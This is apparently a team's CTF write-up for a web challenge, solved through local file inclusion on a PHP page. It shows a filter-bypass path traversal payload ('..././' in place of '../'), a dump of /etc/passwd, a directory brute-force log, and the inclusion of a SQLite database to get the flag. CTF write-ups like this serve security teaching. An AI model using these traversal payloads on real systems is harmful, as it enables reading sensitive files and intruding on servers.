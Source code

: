 # Egypt-Universities-CTF-2019

Hey all this is 0xN1ghtRa1d , this is our writeups for Egypt-Universities-CTF-2019 .

# Category

Web Security

# Points

200

# Description

LFI ( Local File Inclusion )
------------------------------

Page :  `http://3.121.98.79/E-CORP/?page=home.php`
trying to test simple payload `file:///etc/passwd`

Results : 
> Warning: include(./application/views/file:///etc/passwd): failed to open stream: No such file or directory in /var/www/html/E-CORP/index.php on line 84

>Warning: include(): Failed opening './application/views/file:///etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/E-CORP/index.php on line 84

you will get this error then we can use another method to get back into this dir /application/views/
`../../../../../../../../../../../etc/passwd` 

Results :
> Warning: include(./application/views/etc/passwd): failed to open stream: No such file or directory in /var/www/html/E-CORP/index.php on line 84

>Warning: include(): Failed opening './application/views/etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/E-CORP/index.php on line 84

It is clear that the application is removes `../`  from the `page` value
So, we will circumvent the site by adding this value `..././` instead of `../` 
payload : `..././..././..././..././..././..././..././..././etc/passwd` the application will remove `../` from `..././..././..././..././..././..././..././..././etc/passwd` So the last result will be `../../../../../../../etc/passwd`


Results :

>root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
 
 
Done !!
We will do Directory Bruteforce attack to search for the file that contains the flag

>[16:09:34] 200 -    4KB - /E-CORP/index.php
[16:09:55] 200 -   11B  - /E-CORP/LICENSE
[16:13:22] 200 -  939B  - /E-CORP/README.md
[16:13:27] 200 -   54B  - /E-CORP/robots.txt

`robots.txt`/`README.md`/ is public ! 

`/robots.txt` : 
>User-agent: *
>Disallow: /README.md
>Disallow: /LICENSE

`/README.md` :

>### E-CORP config ###
>Allsafe Cybersecurity Group 
>
>all data stored in SQLite database
><!-- Website default config -->
>Modify config values in `./application/config/config.php`.
>
>- error reporting level
>- database path
>- pages
>- default page
>- security
>
>### Current config recap ###
>
><!-- Development config -->
>
>$config = array();
>
>// Environment
>// $config['environment'] = 'production';
>$config['environment'] = 'development';
>
>// Security
>$config['secure'] = true;
>
>// Error reporting.
>if ($config['environment'] === 'production') {
>	ini_set('display_errors', 0);
>	error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED & ~E_STRICT & ~E_USER_NOTICE & ~E_USER_DEPRECATED);
}
>
>
>// Database.
>$config['database-path'] = dirname(__FILE__) . `'/../database/E-Corp.db'`;
>$config['db'] = new SQLite3($config['database-path']);
>
>// Pages
>$config['pages'] = array('home.php', 'about.php', 'contact.php');
>$config['default-page'] = $config['pages'][0];


Certainly, `../database/E-Corp.db` contains the flag
`../database/E-Corp.db` >> `..././database/E-Corp.db`
we will include it  using  Payload `..././datbase/E-Corp.db` 

Results : 


>SQLite format 3@ .;� ����P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�5�QtableempempCREATE TABLE emp ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT NOT NULL UNIQUE, description TEXT NOT NULL, image TEXT NOT NULL, secret TINYINT NOT NULL )%9indexsqlite_autoindex_emp_1emp ~0V _�~�4�5�1 SecretDatabase encrypted & secured by Allsafe Cybersecurity Group flag{LFI_l00k5_s0_c00l}.https://images-wixmp-ed30a86b8c4ca887773594c2.wixmp.com/i/c440cf7a-e325-4f07-9bf5-e253ea414d7b/d9gp63e-d5e5a516-9878-4acc-9934-2434945d0e15.jpg/v1/fill/w_622,h_350,q_70,strp/allsafe_by_threebik_d9gp63e-350t.jpg�''=�Scott KnowlesChief Technology Officerhttps://vignette.wikia.nocookie.net/mrrobot/images/d/d2/Scott.png/revision/latest/scale-to-width-down/310?cb=20150829181743�t)�=�Tyrell WellickSenior Vice President of Technology (former), Hacker, Chief Technology Officer (current)https://vignette.wikia.nocookie.net/mrrobot/images/1/1a/Mr.-Robot-1x04-3.jpg/revision/latest/scale-to-width-down/310?cb=20150725100044�W#��Terry Colbycareer executive, formerly Chief Technology Officer (CTO) of E Corphttps://vignette.wikia.nocookie.net/mrrobot/images/5/54/Terry_Colby.png/revision/latest/scale-to-width-down/310?cb=20150602173801�M')�cPhillip PriceCEO of E Corp.https://vignette.wikia.nocookie.net/mrrobot/images/d/dd/Tumblr_e4e0d09f125afbdd165cd11b97acba0c_3553aa05_1280.jpg/revision/latest/scale-to-width-down/310?cb=20190928214408 ������ Secret'Scott Knowles)Tyrell Wellick#Terry Colby' Phillip Price ��emp 



# Flag

flag{LFI_l00k5_s0_c00l}
 
